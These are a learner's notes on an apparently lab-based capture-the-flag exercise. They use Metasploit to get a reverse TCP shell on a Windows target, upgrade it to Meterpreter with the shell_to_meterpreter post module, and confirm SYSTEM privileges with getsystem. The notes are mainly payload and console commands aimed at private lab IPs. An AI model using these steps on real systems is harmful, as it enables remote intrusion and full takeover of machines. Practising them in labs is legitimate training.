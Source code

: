 ```
set RHOSTS 10.10.77.198
```

```
RHOSTS
```

Run ```set payload windows/x64/shell/reverse_tcp``` before running the exploit to define the payload explicitly.

Error running exploit. Have not been able to get a session. Am now trying it locally.

Recommended alt payload ```set payload generic/shell_reverse_tcp```

Got new local lab IP.

```
10.38.1.113
```

It took forever but I finally got a shell!!

Not sure exactly what the fix was, but make sure:
- Target box is up
	- Restart if repeated attempts fail
- Make sure LHOST is set to your actual attack machines IP
- Make sure you have set the correct RHOSTS IP for you target machine

---

## Task 3 - Escalate

> If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

We can use the ```shell_to_meterpreter``` module to upgrade our shell.

We pick which shell to upgrade by running ```sessions -l``` and setting the id as the ```SESSION``` option on the module.

```
post/multi/manage/shell_to_meterpreter
```

> Select this (use MODULE_PATH). Show options, what option are we required to change?

```
SESSION
```

> Set the required option, you may need to list all of the sessions to find your target here.

> Run! If this doesn't work, try completing the exploit from the previous task once more.

> Once the meterpreter shell conversion completes, select that session for use.

> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this.
> Feel free to open a dos shell via the command 'shell' and run 'whoami'. 
> This should return that we are indeed system. 
> Background this shell afterwards and select our meterpreter session for usage again.
